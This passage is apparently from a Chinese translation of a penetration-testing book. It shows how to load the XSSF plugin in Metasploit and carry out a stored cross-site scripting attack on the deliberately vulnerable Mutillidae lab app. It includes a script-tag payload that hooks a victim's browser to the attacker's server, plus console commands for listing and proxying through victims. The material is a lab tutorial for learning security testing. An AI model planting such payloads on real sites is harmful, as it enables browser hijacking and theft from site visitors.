 1.  使用以下命令安装 XSSF：

```
svn export http://xssf.googlecode.com/svn/trunk ./ --force 

```

确保使用`svn export`而不是`svn checkout`，因为后者的命令会破坏现有的 MSF `svn`文件。成功安装的摘录如下截图所示：

![跨站脚本框架](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ms-kali-adv-pentest/img/3121OS_11_05.jpg)

1.  从 Metasploit Framework 控制台，使用`load xssf`命令加载 XSSF 插件，如下截图所示：![跨站脚本框架](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ms-kali-adv-pentest/img/3121OS_11_06.jpg)

1.  通过输入`helpxssf`来识别 XSSF 命令，如下截图所示：![跨站脚本框架](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ms-kali-adv-pentest/img/3121OS_11_07.jpg)

1.  从控制台，使用以下命令访问与插件相关的 URL：

```
msf>xssf_urls

```

前一个命令的执行如下截图所示，可以看到识别出了几个 URL：

![跨站脚本框架](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ms-kali-adv-pentest/img/3121OS_11_08.jpg)

最重要的 URL 是位于本地主机上的 XSSF 服务器。还识别出了其他几个 URL，包括以下内容：

+   `通用 XSS 注入`：这是您试图让受害者点击或执行的目标。

+   `XSSF 测试页面`：XSSF 提供对易受 XSS 攻击的本地测试页面的访问。这可以用来在实际测试期间验证攻击和结果。

+   `XSSF 隧道代理`：XSSF 允许攻击者在保留其安全身份的同时使用受损主机的身份进行浏览。

+   `XSSF 日志页面`：记录攻击和接收到的信息。不幸的是，日志页面提供了一个非常黑暗的背景，很难看到返回的信息。在测试期间，我们通常通过命令行访问日志信息，这样更清晰，并且可以进行脚本化。

+   `XSSF 统计页面`。

+   `XSSF 帮助页面`。

我们将使用易受攻击的 Web 应用程序**Mutillidae**来演示 XSSF。Mutillidae 是 Metasploitable 项目的一部分，可以从[`sourceforge.net/projects/metasploitable/files/Metasploitable2/`](http://sourceforge.net/projects/metasploitable/files/Metasploitable2/)下载。有关安装此易受攻击目标的注意事项，请参阅附录*安装 Kali Linux*。

1.  一旦打开 Mutillidae，导航到博客页面；这个页面已知容易受到 XSS 攻击（您可以使用漏洞扫描工具对 Mutillidae 进行扫描，以识别其他潜在的插入点）。

要对目标客户端发动攻击，不要在博客中输入常规帖子。相反，输入包含目标 URL 和端口的脚本元素：

```
<script src="img/loop?interval=5"></script>
```

下面的截图显示了攻击代码在目标网站的博客页面上的放置。

![跨站脚本框架](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ms-kali-adv-pentest/img/3121OS_11_09.jpg)

当这个被输入并受害者点击**保存博客条目**时，他们的系统将被攻击。从 Metasploit Framework 控制台，测试人员可以使用`xssf_victims`和`xssf_information`命令获取有关每个受害者的信息。执行`xssf_victims`命令后，将显示有关每个受害者的信息，如下截图所示：
